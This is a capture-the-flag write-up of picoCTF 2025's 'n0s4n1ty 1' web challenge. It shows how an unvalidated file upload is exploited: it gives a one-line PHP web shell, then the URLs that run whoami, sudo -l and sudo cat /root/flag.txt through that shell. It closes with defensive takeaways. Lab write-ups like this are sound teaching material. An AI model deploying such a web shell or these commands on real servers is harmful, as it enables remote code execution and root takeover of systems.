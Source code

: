 # n0s4n1ty 1 — picoCTF2025

**Author:** Prince Niyonshuti N.
**Tags:** Easy · Web Exploitation · browser\_webshell\_solvable

---

## 🧠 Description

> A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you.
>
> Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.
>
> Additional details will be available after launching your challenge instance.

---

## 🔍 Challenge Overview

We're given a web application that allows users to upload profile pictures. Testing the functionality revealed that the server does not properly validate uploaded file types, making it vulnerable to arbitrary file uploads.

---

## 🧪 Exploitation – Gaining Remote Command Execution

### ✅ Step 1: Create Web Shell Payload

We created a minimal PHP web shell:

```php
<?php system($_GET['cmd']); ?>
```

Saved it as:

```
shell.php
```

### ✅ Step 2: Upload the Payload

Using the file upload form on the website, we successfully uploaded the payload. After testing common upload paths, the shell was accessible at:

```
http://<ip>/uploads/shell.php
```

### ✅ Step 3: Execute Commands Remotely

We confirmed command execution by running:

```
http://<ip>/uploads/shell.php?cmd=whoami
```

Output:

```
www-data
```

---

## 🛠️ Privilege Escalation – Getting the Flag

### 🔍 Step 4: Check Sudo Privileges

We executed:

```
http://<ip>/uploads/shell.php?cmd=sudo -l
```

The output showed:

```
(ALL) NOPASSWD: ALL
```

This means we can run any command as root **without a password**.

### 🏁 Step 5: Capture the Flag

We directly read the flag from `/root` using:

```
http://<ip>/uploads/shell.php?cmd=sudo cat /root/flag.txt
```

---

## 🏁 Flag

```
picoCTF{<REDACTED>}
```

---

## 💡 Takeaways

* Always validate file uploads — never trust file extensions or MIME types alone.
* Upload functionality can be a gateway to **remote code execution** if improperly handled.
* Always check for **sudo permissions** once you gain a foothold — `NOPASSWD: ALL` is an easy root.

---